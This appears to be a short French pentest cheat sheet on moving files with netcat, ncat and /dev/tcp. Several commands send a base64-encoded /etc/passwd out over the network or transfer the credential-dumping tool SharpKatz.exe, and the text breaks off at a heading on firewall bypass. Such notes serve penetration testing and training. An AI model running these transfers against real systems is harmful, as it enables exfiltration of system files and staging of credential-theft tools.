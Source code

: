 Envoyeur

```bash
base64 /etc/passwd -w 0 | nc -q 0 -lp 8000
```

Receveur

```bash
nc <ip_envoyeur> 8000 | base64 -d > etc.passwd
```

## NCAT

### Classique

envoyeur

```shell
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

receveur

```shell
ncat -lp 8000 --recv-only > SharpKatz.exe
```

### #Base64 

envoyeur

```shell
base64 /etc/passwd -w 0 | ncat --send-only 192.168.49.128 8000
```

receveur

```shell
ncat -lp 8000 --recv-only | base64 -d > etc.passwd
```


---
# DEV/TCP

receveur
```shell
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

envoyeur
```bash
nc -nvlp 443 -q 0 < SharpKatz.exe
```


---
# BASE64 (BYPASS FIREWALL)
